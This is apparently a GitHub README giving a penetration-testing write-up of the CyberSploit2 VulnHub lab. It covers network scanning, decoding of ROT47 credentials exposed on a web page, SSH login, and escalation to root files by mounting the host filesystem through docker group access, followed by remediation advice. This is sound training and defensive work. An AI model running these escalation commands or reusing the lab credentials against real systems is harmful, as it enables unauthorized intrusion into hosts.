# CyberSploit2 — VAPT / Penetration Testing Lab

<p align="center">
  <b>Vulnerability Assessment and Penetration Testing of the CyberSploit2 Lab</b><br>
  Network Reconnaissance • Web Enumeration • Credential Discovery • SSH • Docker Privilege Escalation
</p>

<p align="center">
  
  
  
  
</p>

---

## 📌 Overview

This repository documents my complete **Vulnerability Assessment and Penetration Testing (VAPT)** process against the **CyberSploit2** vulnerable virtual machine.

The assessment was performed in an isolated and authorized laboratory environment. The objective was to identify exposed services, enumerate the web application, obtain initial access, perform local privilege enumeration, identify a Docker-related privilege escalation path, and demonstrate proof of compromise.

The assessment followed a structured penetration-testing workflow:

```text
Network Discovery
       │
       ▼
Target Identification
       │
       ▼
Port & Service Enumeration
       │
       ▼
Web Enumeration
       │
       ▼
Credential Discovery
       │
       ▼
ROT47 Decoding
       │
       ▼
SSH Initial Access
       │
       ▼
Local Enumeration
       │
       ▼
Docker Group Identification
       │
       ▼
Docker Daemon Access
       │
       ▼
Host Filesystem Access
       │
       ▼
Proof of Compromise
```

---

## 🎯 Lab Objectives

- Discover the CyberSploit2 machine on the local network.
- Identify exposed ports and services.
- Enumerate the HTTP service.
- Identify sensitive information exposed by the web application.
- Analyze and decode the discovered credential data.
- Validate the credentials against the SSH service.
- Enumerate the compromised Linux account.
- Identify Docker-related privileges.
- Assess access to the Docker daemon.
- Demonstrate the impact of excessive Docker privileges.
- Obtain proof of compromise from the host filesystem.
- Document findings and provide remediation recommendations.

---

## 🖥️ Lab Environment

| Parameter | Details |
|---|---|
| Target | CyberSploit2 |
| Target IP | `192.168.204.133` |
| Attacker Machine | Kali Linux |
| Target OS | CentOS Linux |
| Network Type | Isolated Virtual Lab |
| Primary Services | SSH, HTTP |
| Assessment Type | VAPT / Penetration Testing |

> **Note:** The target IP may differ if the virtual lab is configured with a different DHCP/network environment.

---

## 🛠️ Tools Used

| Tool | Purpose |
|---|---|
| `arp-scan` | Local network host discovery |
| `Nmap` | Port and service enumeration |
| `Feroxbuster` | Web directory/resource enumeration |
| Browser | Manual web application inspection |
| `tr` | ROT47 decoding |
| `SSH` | Remote authentication |
| `Docker CLI` | Docker daemon and container enumeration |
| `Alpine Linux` | Temporary container for privilege-boundary demonstration |

---

# 🔎 1. Reconnaissance

## 1.1 Network Discovery

The first step was to identify active hosts within the local virtual network.

```bash
sudo arp-scan -l
```

The scan identified several responding hosts. The CyberSploit2 machine was identified at:

```text
192.168.204.133
```

### Screenshot



---

# 🔎 2. Port and Service Enumeration

Nmap was used to enumerate exposed TCP ports:

```bash
sudo nmap -Pn 192.168.204.133
```

### Results

| Port | State | Service |
|---|---|---|
| `22/tcp` | Open | SSH |
| `80/tcp` | Open | HTTP |

### Screenshot



---

# 🌐 3. Web Enumeration

The HTTP service was accessed at:

```text
http://192.168.204.133/
```

Directory enumeration was performed using:

```bash
feroxbuster -u http://192.168.204.133/ \
-w /usr/share/wordlists/dirb/common.txt
```

The scan identified the application's main page and additional web resources.

### Screenshot



---

# 🌐 4. Manual Web Application Inspection

The web application displayed a table containing fields such as username, password, and handle information.

One entry contained unusual printable characters:

```text
Username: D92:=6?5C2
Password: 4J36CDA=@:E`
```

The values were treated as potentially encoded data and analyzed further.

### Screenshot



---

# 🔐 5. Credential Analysis and ROT47 Decoding

The suspicious values were consistent with the **ROT47** substitution cipher.

### Decode Username

```bash
echo 'D92:=6?5C2' | tr '!-~' 'P-~!-O'
```

Output:

```text
shailendra
```

### Decode Password

```bash
echo '4J36CDA=@:E`' | tr '!-~' 'P-~!-O'
```

Output:

```text
cybersploit1
```

Recovered credential pair:

```text
Username : shailendra
Password : cybersploit1
```

### Screenshot



---

# 🔑 6. Initial Access via SSH

Nmap had identified SSH on TCP port 22. The recovered credentials were tested using:

```bash
ssh shailendra@192.168.204.133
```

The credentials successfully authenticated to the target and provided an interactive shell.

### Screenshot



---

# 👤 7. Post-Authentication Enumeration

The current user was verified:

```bash
whoami
```

Output:

```text
shailendra
```

The home directory was examined:

```bash
ls
```

A file named `hint.txt` was found. Its contents were retrieved with:

```bash
cat hint.txt
```

Output:

```text
docker
```

This indicated that Docker should be investigated.

### Screenshot



---

# 🐳 8. Docker Group Enumeration

The user's group memberships were checked using:

```bash
id
```

Relevant output:

```text
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker)
```

This confirmed that the compromised account belonged to the `docker` group.

Membership in the Docker group is security-sensitive because it can provide access to the Docker daemon, which operates with elevated privileges on the host.

---

# 🐳 9. Docker Service Enumeration

The Docker client version was checked:

```bash
docker --version
```

Output:

```text
Docker version 19.03.12, build 48a66213fe
```

Running containers were checked using:

```bash
docker ps
```

Docker images were also checked using:

```bash
docker images
```

These commands confirmed that the compromised user could communicate with Docker.

---

# 🔒 10. Docker Socket Permissions

The Docker Unix socket was examined:

```bash
ls -l /var/run/docker.sock
```

Relevant output:

```text
srw-rw----. 1 root docker 0 /var/run/docker.sock
```

The socket was owned by `root:docker` and provided read/write access to the Docker group.

Because `shailendra` belonged to the Docker group, the account could communicate with the Docker daemon through this socket.

---

# 🐳 11. Docker Daemon Enumeration

Docker server information was queried using:

```bash
docker info
```

Relevant information included:

```text
Containers: 5
Running: 0
Paused: 0
Stopped: 5
Images: 0
Server Version: 18.09.1
Storage Driver: overlay2
Cgroup Driver: cgroupfs
Default Runtime: runc
```

### Screenshot



---

# 📦 12. Existing Container Enumeration

All containers were enumerated using:

```bash
docker ps -a
```

Five containers were identified:

```text
d5b0b0502ef2    happy_visvesvaraya
565f2138b1da    youthful_euler
d276a9771b70    gallant_swirles
58a8f3727953    hopeful_driscoll
a7c512386971    loving_meitner
```

### Screenshot



---

# 🔬 13. Container Configuration Inspection

One of the existing containers was inspected:

```bash
docker inspect d5b0b0502ef2
```

Relevant configuration included:

```text
Privileged: false
Binds: null
Mounts: []
PidMode: ""
NetworkMode: default
```

The existing container was not privileged and did not have a host filesystem mount. The assessment therefore focused on the ability to create a new container through the Docker daemon.

### Screenshot



---

# 🚀 14. Docker Privilege Escalation

A temporary Alpine Linux container was created:

```bash
docker run --rm -it alpine sh
```

This demonstrated that the compromised account could pull an image, create a container, and execute commands inside it.

A second container was created with the host filesystem mounted at `/host`:

```bash
docker run --rm -it -v /:/host alpine sh
```

The mount option:

```text
-v /:/host
```

mapped the host root filesystem to `/host` inside the container.

---

# 🗂️ 15. Host Filesystem Access

The mounted host filesystem was enumerated:

```bash
ls /host
```

The output included standard host directories such as:

```text
bin  boot  dev  etc  home  lib  lib64  opt  root  run  sbin  srv  sys  tmp  usr  var
```

The host root directory was then examined:

```bash
ls -la /host/root
```

The directory contained a file named:

```text
flag.txt
```

### Screenshot



---

# 🏁 16. Proof of Compromise

The identified file was read using:

```bash
cat /host/root/flag.txt
```

The laboratory proof-of-compromise message was:

```text
Pwned CyberSploit2 POC
```

### Screenshot



---

# 🔗 17. Complete Attack Chain

```text
ARP Scan
   ↓
Target: 192.168.204.133
   ↓
Nmap
   ↓
22/tcp SSH + 80/tcp HTTP
   ↓
Feroxbuster
   ↓
Encoded Credentials
   ↓
ROT47 Decoding
   ↓
shailendra : cybersploit1
   ↓
SSH Access
   ↓
hint.txt → docker
   ↓
Docker Group Membership
   ↓
Docker Socket Access
   ↓
Container Creation
   ↓
Host Filesystem Mount
   ↓
/host/root
   ↓
flag.txt
   ↓
Proof of Compromise
```

---

# ⚠️ 18. Security Findings

## Finding 1 — Sensitive Credentials Exposed Through Web Application

**Severity:** High

### Description

The web application exposed credential information within a publicly accessible page. The discovered values could be decoded using ROT47 to obtain valid SSH credentials.

### Impact

An unauthenticated attacker who discovers and decodes the exposed credentials may obtain remote access to the target system.

### Recommendation

- Remove credentials from publicly accessible application content.
- Rotate all exposed credentials.
- Avoid hard-coded secrets.
- Use secure secrets management.
- Avoid credential reuse.
- Review source code and configuration for additional exposed secrets.

---

## Finding 2 — Excessive Privileges Through Docker Group Membership

**Severity:** High

### Description

The compromised account was a member of the `docker` group and could communicate with the Docker daemon through `/var/run/docker.sock`.

This allowed the account to create a container with the host filesystem mounted at `/host`, resulting in access to the host's `/root` directory.

### Impact

Excessive Docker daemon privileges can allow users to access sensitive host resources outside their intended permission boundary.

Potential consequences include:

- Unauthorized access to sensitive files.
- Exposure of credentials and SSH keys.
- Modification of host files.
- Access to application configuration and secrets.
- Further compromise of services running on the host.
- Loss of confidentiality and integrity.

### Recommendation

- Remove unnecessary users from the `docker` group.
- Apply least-privilege principles.
- Restrict access to `/var/run/docker.sock`.
- Consider rootless Docker where appropriate.
- Monitor privileged container creation.
- Audit container configurations and host mounts.
- Harden the Docker daemon and host operating system.

---

# 📊 19. Risk Summary

| Finding | Severity | Primary Impact |
|---|---|---|
| Sensitive Credential Exposure | High | Unauthorized initial access |
| Docker Group Privilege | High | Host filesystem / privileged access |

The findings formed a chained attack path:

```text
Credential Exposure
        +
Docker Privilege
        ↓
Remote Access
        ↓
Host Filesystem Access
```

---

# 🛡️ 20. Remediation Summary

### Immediate

1. Remove exposed credentials from the web application.
2. Rotate compromised credentials.
3. Remove unnecessary users from the Docker group.
4. Restrict access to the Docker Unix socket.

### Short-Term

1. Review Docker users and permissions.
2. Audit existing containers.
3. Search application files for additional secrets.
4. Implement secure secrets management.
5. Apply least-privilege access controls.

### Long-Term

1. Consider rootless Docker where appropriate.
2. Implement centralized security monitoring.
3. Monitor Docker daemon activity.
4. Establish periodic vulnerability assessments.
5. Maintain current security patches.
6. Perform regular privilege and configuration reviews.

---

# 🧪 21. Evidence / Screenshot Index

| # | Filename | Evidence |
|---:|---|---|
| 01 | `01_arp_scan.png` | Target discovery |
| 02 | `02_nmap_scan.png` | Open ports and services |
| 03 | `03_feroxbuster_scan.png` | Web enumeration |
| 04 | `04_web_credential_table.png` | Credential exposure |
| 05 | `05_rot47_credential_decode.png` | Credential decoding |
| 06 | `06_ssh_login.png` | Initial SSH access |
| 07 | `07_initial_user_enumeration.png` | User enumeration and Docker hint |
| 08 | `08_docker_info.png` | Docker daemon enumeration |
| 09 | `09_docker_containers.png` | Container enumeration |
| 10 | `10_docker_container_inspection.png` | Container configuration |
| 11 | `11_host_root_access.png` | Host `/root` access |
| 12 | `12_root_flag.png` | Proof of compromise |

---

# 📁 22. Recommended Repository Structure

```text
CyberSploit2-VAPT/
│
├── README.md
│
├── report/
│   └── CyberSploit2-VAPT-Report.pdf
│
├── images/
│   ├── 01_arp_scan.png
│   ├── 02_nmap_scan.png
│   ├── 03_feroxbuster_scan.png
│   ├── 04_web_credential_table.png
│   ├── 05_rot47_credential_decode.png
│   ├── 06_ssh_login.png
│   ├── 07_initial_user_enumeration.png
│   ├── 08_docker_info.png
│   ├── 09_docker_containers.png
│   ├── 10_docker_container_inspection.png
│   ├── 11_host_root_access.png
│   └── 12_root_flag.png
│
└── notes/
    └── commands.txt
```

---

# 🧠 23. Key Learning Outcomes

This lab provided practical experience with:

- Linux network reconnaissance.
- ARP-based host discovery.
- Nmap service enumeration.
- Web directory enumeration.
- Manual web application analysis.
- Identification of exposed credentials.
- ROT47 substitution decoding.
- SSH authentication.
- Linux user and group enumeration.
- Docker security assessment.
- Docker socket permission analysis.
- Container configuration inspection.
- Host filesystem exposure through Docker.
- Privilege-boundary analysis.
- VAPT documentation and evidence collection.

---

# 📝 24. Lessons Learned

### Information Exposure Can Become Initial Access

Sensitive information exposed through a web application can become an entry point even when the values are not displayed as plaintext.

### Encoding Is Not Encryption

ROT47 is a reversible substitution mechanism and must not be used as a method for protecting credentials.

### Docker Access Is Security-Sensitive

Membership in the `docker` group should be treated as privileged access because Docker daemon control can cross normal Linux permission boundaries.

### Enumeration Should Be Methodical

The assessment followed a structured sequence:

```text
Discover
   ↓
Enumerate
   ↓
Analyze
   ↓
Validate
   ↓
Exploit
   ↓
Document
```

---

# 🏁 25. Conclusion

The CyberSploit2 assessment demonstrated a complete penetration-testing attack chain beginning with network reconnaissance and ending with host filesystem access.

The initial attack surface consisted of SSH and HTTP services. Web enumeration revealed credential information that could be decoded using ROT47. The resulting credentials provided SSH access as the `shailendra` user.

Post-authentication enumeration revealed that the account belonged to the Docker group. Docker socket permissions and daemon access were then validated.

A temporary Docker container was created with the host filesystem mounted inside the container. This allowed access to the host's `/root` directory and the laboratory proof-of-compromise file.

The assessment demonstrates the importance of protecting authentication information, avoiding reversible encoding for sensitive data, applying least-privilege principles, restricting Docker daemon access, and monitoring privileged container operations.

---

# ⚖️ Disclaimer

This project was performed in an **authorized CyberSploit2/VulnHub laboratory environment** for educational and cybersecurity training purposes.

The techniques documented in this repository should only be used against systems for which explicit authorization has been obtained.

---

## 👨‍💻 Author

**Adarsh R K**

Cybersecurity | VAPT | Penetration Testing | Security Operations

---

<p align="center">
  <b>CyberSploit2 — VAPT Lab Completed</b>
</p>
